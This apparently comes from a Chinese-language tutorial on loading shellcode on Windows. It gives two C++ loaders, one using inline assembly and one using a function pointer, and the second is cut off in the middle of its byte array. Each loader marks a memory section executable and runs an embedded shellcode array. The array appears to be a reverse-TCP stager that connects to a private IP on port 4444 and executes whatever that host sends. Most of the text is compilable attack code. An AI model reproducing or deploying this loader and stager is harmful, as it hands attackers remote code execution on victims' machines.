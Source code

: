 # 1.内联汇编加载

使用内联汇编只能加载32位程序的ShellCode，因为64位程序不支持写内联汇编

```cpp
#pragma comment(linker, "/section:.data,RWE") //将data段的内存设置成可读可写可执行
#include <Windows.h>

//ShellCode部分
unsigned char buf[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x07\x01\xc7\x49\x75\xef\x52"
"\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c"
"\x01\xd0\x8b\x48\x18\x8b\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49"
"\x8b\x34\x8b\x31\xff\x01\xd6\x31\xc0\xc1\xcf\x07\xac\x01\xc7\x38"
"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89"
"\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f"
"\x54\x68\xd2\x53\x6e\xfc\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29"
"\xc4\x54\x50\x68\x9c\x13\x41\xc4\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
"\x68\x2c\x9b\xfc\xa4\x50\x58\xff\xd5\x97\x6a\x10\x56\x57\x68\xb6\x59\xc0"
"\x0e\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\xe8\xd9\xce\x36\xff\xd5\x83\xf8"
"\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68"
"\x9c\xed\x92\x66\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\xe8\xd9"
"\xce\x36\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a"
"\x00\x50\x68\x3e\xba\x17\xa3\xff\xd5\x57\x68\xe6\xfc\xe1\xe2\xff"
"\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xfc\xd3\xf4\x5e\x6a\x00\x53"
"\xff\xd5";

void main() {
    
	__asm {
		lea eax,buf    // 将buf的地址加载到eax寄存器
		call eax  // 使用call指令跳转到eax寄存器指向的地址（即buf），开始执行shellcode
	}
}
```



# 2.使用函数指针加载

如下代码所示，`(void(*)(void))`是一个函数指针类型的强制转换, 该函数指针指向一个没有参数且返回值类型为void的函数，也就是说这行代码将 `buf` 的地址转换为一个函数指针，然后调用该指针所指向的函数，其实这种方法和上述加载方式原理是一样的，只不过这种方法还能用于加载64位的ShellCode

```cpp
#pragma comment(linker, "/section:.data,RWE") //将data段的内存设置成可读可写可执行
#include <Windows.h>

//ShellCode部分
unsigned char buf[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x07\x01\xc7\x49\x75\xef\x52"
"\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c"
"\x01\xd0\x8b\x48\x18\x8b\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49"
"\x8b\x34\x8b\x31\xff\x01\xd6\x31\xc0\xc1\xcf\x07\xac\x01\xc7\x38"
"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89"
```